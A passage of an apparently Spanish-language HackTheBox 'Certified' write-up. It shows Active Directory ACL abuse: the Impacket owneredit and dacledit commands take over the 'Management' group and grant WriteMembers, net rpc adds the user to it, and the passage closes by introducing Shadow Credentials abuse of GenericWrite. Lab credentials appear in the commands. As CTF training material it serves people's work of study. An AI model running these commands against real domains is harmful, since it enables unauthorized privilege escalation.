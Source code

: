 En este caso usaremos la sugerencia de `bloodhound` para asignarnos a nosotros como `judith.mader` el nuevo propietario del grupo `Management`

~~~ bash
owneredit.py -action write -new-owner 'judith.mader' -target 'Management' 'certified.htb/judith.mader:judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
~~~

Utilizaremos el `distinguishedName` del grupo `Managmement` para asignarle la capacidad al usuario `judith.mader` de agregar usuarios al grupo mencionado

~~~ bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' 'certified.htb/judith.mader:judith09' 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250315-233135.bak
[*] DACL modified successfully!
~~~

Una vez modificamos el objeto, el usuario `judith.mader` ahora es capaz de agregarse a sí mismo al grupo

~~~ bash
net rpc group addmem "Management" 'judith.mader' -U 'certified.htb/judith.mader' -S "10.10.11.41"
Password for [CERTIFIED.HTB\judith.mader]:
~~~

Comprobaremos que el usuario `judith.mader` sea parte del grupo `Management` con el siguiente comando

~~~ bash
net rpc group members "Management" -U 'certified.htb/judith.mader' -S "10.10.11.41"

Password for [CERTIFIED.HTB\judith.mader]:
CERTIFIED\judith.mader
CERTIFIED\management_svc
~~~


## Shadow Credentials - Abusing `GenericWrite` Permissions (AD-DACL)

El grupo `Management` tiene permisos `GenericWrite` sobre `management_svc`, lo que significa que podemos actualizar atributos de este objeto o en este caso una cuenta de servicio, podemos verificar esta información en `Analysis`  > `Shortest Paths` > `Shortest Path to Domain Admins`
